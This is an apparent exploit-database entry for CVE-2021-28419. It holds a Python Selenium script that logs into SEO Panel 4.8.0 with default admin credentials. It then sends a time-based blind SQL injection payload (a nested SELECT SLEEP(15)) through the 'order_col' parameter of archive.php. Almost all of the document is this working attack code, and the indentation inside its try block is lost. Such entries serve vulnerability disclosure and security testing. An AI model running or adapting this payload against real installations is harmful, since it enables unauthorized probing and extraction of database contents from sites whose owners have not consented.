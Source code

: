 EXP
---

    # Exploit Title: SEO Panel 4.8.0 - 'order_col' Blind SQL Injection (2)
    # Author: nu11secur1ty
    # Testing and Debugging: nu11secur1ty
    # Date: 04/25/2021
    # Vendor: https://www.seopanel.org/
    # Link: https://www.seopanel.org/spdownload/4.8.0
    # CVE: CVE-2021-28419

    [+] Exploit Source:

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # CVE-2021-28419

    from selenium import webdriver
    import time


    #enter the link to the website you want to automate login.
    website_link="http://192.168.1.3/seopanel/login.php"

    #enter your login username
    username="spadmin"

    #enter your login password
    password="spadmin"

    #enter the element for username input field
    element_for_username="userName"

    #enter the element for password input field
    element_for_password="password"

    #enter the element for submit button
    element_for_submit="login"


    browser = webdriver.Chrome()
    browser.get((website_link))

    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    # Exploit
    browser.get(("
    http://192.168.1.3/seopanel/archive.php?from_time=2021-04-25&order_col=(SELECT
    7397 FROM
    (SELECT(SLEEP(15)))nu11secur1ty)&order_val=DESC&report_type=website-search-reports&search_name=&sec=viewWebsiteSearchSummary&to_time=2021-04-25&website_id=1"))

    print("payload is deployed MySQL is not responding correctly...\n")

    except Exception:
    #### This exception occurs if the element are not found in the webpage.
    print("Some error occured :(")
